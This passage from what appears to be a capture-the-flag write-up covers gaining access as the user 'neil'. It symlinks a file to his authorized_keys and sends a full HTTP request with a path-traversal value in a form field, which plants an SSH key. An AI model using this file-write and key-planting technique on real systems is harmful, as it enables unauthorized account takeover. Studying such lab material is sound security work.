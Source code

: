 Within the machine, it creates this file with `neil` permissions:

<figure><img src="../../.gitbook/assets/image (2106).png" alt=""><figcaption></figcaption></figure>

This means we have an arbitrary file write as the `neil` user, and we can try to drop our SSH public key into his `authorized_keys` folder. I tried to directly write it to that folder but it doesn't work, and I think we have to maintain the `.txt` extension.

As such, we can create a symlink between `testkey.txt` and the `authorized_keys` folder using:

```
ln -s /home/neil/.ssh/authorized_keys key.txt
```

Afterwards, we can send this request to add our SSH key:

```http
POST /convert HTTP/1.1
Host: 127.0.0.1:3001
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------292034445114065400543811074751
Content-Length: 791
Origin: http://127.0.0.1:3001
Connection: close
Referer: http://127.0.0.1:3001/
Cookie: session=eyJmbGFzaE1lc3NhZ2UiOnt9fQ==; session.sig=unIt4GDQSCUqkXd9r4WU_geYMnI
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

-----------------------------292034445114065400543811074751
Content-Disposition: form-data; name="convertFile"; filename="key.html"
Content-Type: application/vnd.ms-publisher

<KEY>
-----------------------------292034445114065400543811074751
Content-Disposition: form-data; name="outputType"

../../../../../../../tmp/testssh/key.txt
-----------------------------292034445114065400543811074751--
```

Then we can `ssh` in as `neil`.&#x20;
